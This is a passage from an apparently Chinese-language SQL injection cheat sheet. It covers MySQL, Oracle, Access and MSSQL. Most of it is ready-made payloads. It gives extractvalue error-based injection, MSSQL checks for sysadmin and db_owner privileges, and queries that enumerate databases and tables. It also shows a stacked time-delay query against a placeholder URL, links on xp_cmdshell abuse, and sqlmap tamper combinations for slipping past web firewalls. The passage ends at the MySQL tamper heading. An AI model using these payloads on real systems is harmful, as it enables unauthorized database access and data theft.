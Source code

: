 + and 1=extractvalue(1,concat(0x7e,(select database())))
    + EXTRACTVALUE (XML_document, XPath_string); 
    + extractvalue()：从目标XML中返回包含所查询值的字符串。
    + 原理和updatexml()一致
    + 原理详解：https://www.cnblogs.com/xishaonian/p/6250444.html
#### 注意
手工注射时出现前后编码不一致，在参数前加上 unhex(hex(参数))
注入流程(详细)：https://www.cnblogs.com/fengshui/p/9265713.html



### Oracle
Oracle报错注入(,带外通信获取查询结果,时间盲注)：https://www.cnblogs.com/pshell/articles/7473713.html

### Access
Access 数据库并没有提供太多内置函数，因此注入也很不方便，需要逐位进行判断猜解拼凑。

Access基础注入，偏移注入等高级注入：https://blog.csdn.net/eldn__/article/details/8211913

### MSSQL
+ 判断权限
    + And 1=(select IS_SRVROLEMEMBER('sysadmin')) //判断是否是系统管理员
    + And 1=(select is_member('db_owner')) //判断时候是库权限
	+ And 1=(select has_dbaccess('master')) //判断是否有库读取权限

+ 获取数据库(一次性获取全部数据库，只适合版本 >= 2005)
    + And 1=(select quotename(name) frm master..sysdatabases FOR XML PATH(''))--
    + And 1=(select '|'%2bname%2b'|' from master..sysdatabases FOR XML PATH(''))--
    + quotename()的主要作用就是在存储过程中，给列名、表名等加个[]
    + Sql FOR XML PATH  将查询结果集以XML形式展现
    + 在PATH后面括号()中的参数可以改变行节点的内容

+ 获取当前数据库中的表(下述语句限于版本mssql2005以上)
    + And 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--
	+ And 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--

+ http://www.xxx.com/?id=1;waitfor delay '0:0:5'
    + sqlserver 堆查询延时原理：https://blog.csdn.net/fox123871/article/details/8080321

+ mssql注入流程：https://www.cnblogs.com/xishaonian/p/6173644.html
+ 具详细mssql注入：https://www.cnblogs.com/vigarbuaa/p/3371500.html
+ mssql注入总结：https://blog.51cto.com/maxvision/1691962
+ mssql注入--利用xp_cmdshell：https://bbs.ichunqiu.com/thread-3221-1-1.html


## 0x02 sqlmap 常用注入
**记录 sqlmap 的检测和利用过程中使用的 payload（也算一种 payload 收集方式）**
` sqlmap -u ".." -safe-freq=3  `

更多tamper脚本功能：https://blog.csdn.net/qq_34444097/article/details/82717357
常用tamper脚本：https://blog.csdn.net/qq_36374896/article/details/83658305

### 一些常用的 tamper 组合
http://www.storysec.com/sqlmap-tamper-script-lists.html
+ 通用的测试 tamper 
`tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes`
+ Microsoft SQL Server
`tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes`
+ MySQL